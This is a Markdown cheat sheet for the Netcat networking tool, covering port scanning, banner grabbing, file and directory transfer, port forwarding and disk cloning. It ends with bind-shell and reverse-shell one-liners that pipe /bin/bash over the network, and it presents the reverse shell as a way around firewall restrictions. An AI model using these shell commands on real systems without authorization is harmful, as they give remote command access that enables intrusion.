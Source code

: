 ```yaml
---
title: Netcat
date: '2020-11-25T18:28:43.000Z'
icon: icon-netcat
background: bg-blue-600
tags:
  - ncat
  - nc
  - utility
  - network
  - traffic
categories:
  - Linux Command
intro: This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


# nc

## Getting started

### Usage

Connect to a host located anywhere

`$ nc \[options\] \[host\] \[port\]`

Listen for incoming connections
```shelll
$ nc -lp port [host] [port]
```

### Option examples

| Option | Description | Example |
| :--- | :--- | :--- |
| `-h` | nc -h | Help |
| `-z` | nc -z 192.168.1.9 1-100 | Port scan for a host or IP address |
| `-v` | nc -zv 192.168.1.9 1-100 | Provide verbose output |
| `-n` | nc -zn 192.168.1.9 1-100 | Fast scan by disabling DNS resolution |
| `-l` | nc -lp 8000 | TCP Listen mode _\(for inbound connects\)_ |
| `-w` | nc -w 180 192.168.1.9 8000 | Define timeout value |
| `-k` | nc -kl 8000 | Continue listening after disconnection |
| `-u` | nc -u 192.168.1.9 8000 | Use UDP instead of TCP |
| `-q` | nc -q 1 192.168.1.9 8000 | Client stay up after EOF |
| `-4` | nc -4 -l 8000 | IPv4 only |
| `-6` | nc -6 -l 8000 | IPv6 only |

### Chat client-server

Server \(192.168.1.9\) `$ nc -lv 8000`

Client
```shell
$ nc 192.168.1.9 8000
```

## Examples {.cols-3}

### Banner grabbing

`$ nc website.com 80 GET index.html HTTP/1.1 HEAD / HTTP/1.1`

or
```shell
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25 `$ nc -zvn 192.168.1.1 21-25`

Scan ports 22, 3306 and 8080
```shell
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

`$ nc -lp 8001 -c "nc 127.0.0.1 8000"`

or
```shell
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server \(192.168.1.9\) `$ nc -lv 8000 &lt; file.txt`

Client
```shell
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server \(192.168.1.9\) `$ nc -lv 8000 &gt; file.txt`

Client
```shell
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server \(192.168.1.9\) `$ tar -cvf – dir\_name \| nc -l 8000`

Client
```shell
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer

Server \(192.168.1.9\) `$ nc -l 8000 \| openssl enc -d -des3 -pass pass:password &gt; file.txt`

Client
```shell
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network

### Clones

Server \(192.168.1.9\) `$ dd if=/dev/sda \| nc -l 8000`

Client
```shell
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server \(192.168.1.9\) `$ cat video.avi \| nc -l 8000`

Client
```shelll
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server \(192.168.1.9\) `$ nc -lv 8000 -e /bin/bash`

Client
```shell
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.

### Reverse shell

Server \(192.168.1.9\) `$ nc -lv 8000`

Client
```shell
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

